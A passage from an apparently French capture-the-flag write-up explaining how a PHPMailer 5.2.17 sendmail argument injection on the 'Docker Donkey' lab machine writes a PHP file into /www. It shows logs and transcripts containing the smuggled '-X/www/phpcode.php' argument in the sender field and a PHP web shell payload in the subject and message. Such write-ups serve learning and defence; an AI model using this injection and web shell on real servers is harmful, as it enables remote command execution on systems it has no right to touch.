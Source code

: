 L'emplacement où écrire le fichier PHP n'a pas été choisit au hasard : en commentaire sur la page de contact on peut voir ceci :  

```html
	  <strong><i class="fa fa-exclamation-triangle" aria-hidden="true"></i> Oh snap!</strong> Something goes wrong, damn it!
	  <!-- FIXME!: www-path: /www -->	
```

On sait que ça fonctionne quand la requête met trois plombes à s'exécuter :D  

Le premier signe de l'exploitation côté serveur c'est l'apparition du process sendmail :  

```plain
2022/01/13 07:20:24 CMD: UID=33     PID=12964   | sh -c /usr/sbin/sendmail -t -i   -f"attacker\\" -oQ/tmp/ -X/www/phpcode.php   some\"@email.com
```

Aussitôt le fichier est créé mais il est vide :  

```plain
-rw-r--r--       ? 33             33                           0 Jan 13 08:22 /www/phpcode.php
```

Notez aussi le timestamp sur le fichier : pour une raison que j'ignore il est une heure dans le futur. Vraisemblablement *sendmail* s'en sert pour savoir où il en est.  

Plus tard le fichier a gagné du contenu :  

```plain
-rw-r--r--       ? 33             33                       609 Jan 13 08:25 /www/phpcode.php
```

A ce stade c'est déjà gagné :  

```plain
12964 >>> some"@email.com... Unbalanced '"' 
12964 <<< To: Donkey <admin@dockerdonkey.com> 
12964 <<< Subject: Message from zz<?php system($_GET['cmd']); ?>zz_name 
12964 <<< X-PHP-Originating-Script: 0:class.phpmailer.php 
12964 <<< Date: Thu, 13 Jan 2022 07:20:24 +0000 
12964 <<< From: Docker Donkey Server <"attacker\" -oQ/tmp/ -X/www/phpcode.php   some"@email.com> 
12964 <<< Message-ID: <0acccfff72a67c6805d080b6d6f5ab8f@192.168.101.132> 
12964 <<< X-Mailer: PHPMailer 5.2.17 (https://github.com/PHPMailer/PHPMailer) 
12964 <<< MIME-Version: 1.0 
12964 <<< Content-Type: text/plain; charset=iso-8859-1 
12964 <<<
```

Si on attend encore le message fait aussi son apparition :  

```plain
-rw-r--r--       ? 33             33                     1675 Jan 13 08:27 /www/phpcode.php
```

```plain
12964 <<< zz<?php system($_GET['cmd']); ?>zz_message 
12964 <<<   
12964 <<< [EOF] 
12964 === CONNECT [127.0.0.1] 
12964 <<< 220 12081bd067cc Python SMTP proxy version 0.2 
12964 >>> EHLO 12081bd067cc 
12964 <<< 502 Error: command "EHLO" not implemented 
12964 >>> HELO 12081bd067cc 
12964 <<< 250 12081bd067cc 
12964 >>> MAIL From:<attacker@12081bd067cc> 
12964 <<< 250 Ok 
12964 >>> RCPT To:<some"@email.com"@12081bd067cc> 
12964 <<< 250 Ok 
12964 >>> DATA 
12964 <<< 354 End data with <CR><LF>.<CR><LF> 
12964 >>> Received: (from www-data@localhost) 
```